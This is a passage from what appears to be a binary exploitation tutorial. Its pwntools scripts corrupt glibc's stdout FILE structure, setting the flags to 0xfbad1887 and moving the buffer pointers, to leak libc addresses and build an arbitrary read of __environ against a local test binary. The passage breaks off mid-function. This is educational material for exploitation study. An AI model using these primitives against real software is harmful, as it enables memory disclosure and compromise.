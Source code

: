Here is the python script to exploit out program:

```python
from pwn import *

exe = ELF('./tmp')
# libc = ELF('')
context.binary = exe

script = '''
b *main + 127
'''

p = process('./tmp')
#p = gdb.debug("./tmp", gdbscript = script)

def write(addr, data):
	p.sendlineafter(b"addr: ", f"{addr}".encode())
	p.sendlineafter(b"size: ", f"{len(data)}".encode())
	p.sendafter(b"data: ", data)

p.recvuntil(b"leak: ")
stdout = int(p.recvline(), 16)

payload = p64(0xfbad1887) + p64(0) * 3 + p8(0)
write(stdout, payload)

p.interactive()
```

That's how this classic libc address leak techniques works...

---

### 4. More general read primitive...

So now that we start to see more how this work, we can extend that simple technique to a more general read primitive, that will permit to read in data at any known addresses...

here i choose, `__environ` as our target (you can calculate offset by yourself, to fit with your local glibc).

```python
from pwn import *

exe = ELF('./tmp')
context.binary = exe

script = '''
b *main + 127
'''

p = process('./tmp')
#p = gdb.debug("./tmp", gdbscript = script)

def write(addr, data):
	p.sendlineafter(b"addr: ", f"{addr}".encode())
	p.sendlineafter(b"size: ", f"{len(data)}".encode())
	p.sendafter(b"data: ", data)

def arbread(addr, size):
	payload = p64(0xfbad1887) + p64(0) * 3 + p64(addr) +  p64(addr + size) * 3 + p64(addr + size + 1)
	write(stdout, payload)

def arbread_02(addr, size):
```